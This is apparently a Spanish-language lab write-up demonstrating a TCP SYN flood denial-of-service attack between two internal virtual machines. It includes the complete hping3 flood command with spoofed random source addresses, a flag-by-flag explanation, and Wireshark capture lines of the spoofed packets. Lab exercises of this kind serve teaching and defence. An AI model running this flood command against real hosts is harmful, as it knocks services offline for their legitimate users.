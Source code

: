 Este laboratorio cuenta con dos máquina virtuales:
- Windows 10 con configuración de la red: red interna. IP 10.10.10.5
- Ubuntu 23.10 con configuración de la red: red interna. IP: 10.10.10.3

Comprobamos que las máquina virtuales se vean haciendo un ping:
![](capturas/ping.png)
![](capturas/ping.win.png)


En la máquina Windows:
- No hace falta desactivar el antivirus de Windows. Funciona igualmente.
- Abrimor Wireshark  para snifar el tráfico.

En la máquina Linux instalamos hping3 y lanzamos el ataque:
```
sudo apt-get install hping3
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.10.10.5
```
Este comando está diseñado para enviar una gran cantidad de solicitudes SYN TCP al puerto 80 de la dirección IP 10.10.10.5, utilizando direcciones IP de origen aleatorias. Este tipo de ataque se conoce como un ataque de inundación SYN y puede utilizarse para sobrecargar un servidor objetivo, potencialmente causando una denegación de servicio para los usuarios legítimos.
-c 15000: Envía 15000 paquetes.
-d 120: Tamaño de cada paquete de 120 bytes.
-S: Establece el bit de SYN en los paquetes TCP, lo que es común en el establecimiento de una conexión TCP.
-w 64: Tamaño de ventana TCP de 64.
-p 80: Número de puerto de destino, 80 es el puerto HTTP estándar.
--flood: Envía paquetes lo más rápido posible sin esperar respuestas.
--rand-source: Utiliza direcciones IP de origen aleatorias.
10.10.10.5: La dirección IP del objetivo del ataque.
![](capturas/Dos-1.png)


Comprobamos en Wireshark el ataque:
![](capturas/wireshark-Dos-Attack.png)

```
117	53.374939	113.237.38.92	10.10.10.5	TCP	174	1528 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
118	53.374939	72.210.92.205	10.10.10.5	TCP	174	1529 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
119	53.374939	44.242.130.118	10.10.10.5	TCP	174	1530 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
120	53.374939	33.240.239.31	10.10.10.5	TCP	174	1531 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
121	53.374939	203.148.209.97	10.10.10.5	TCP	174	1532 → 80 [SYN] Seq=0 Win=64 Len=120 [TCP segment of a reassembled PDU]
```
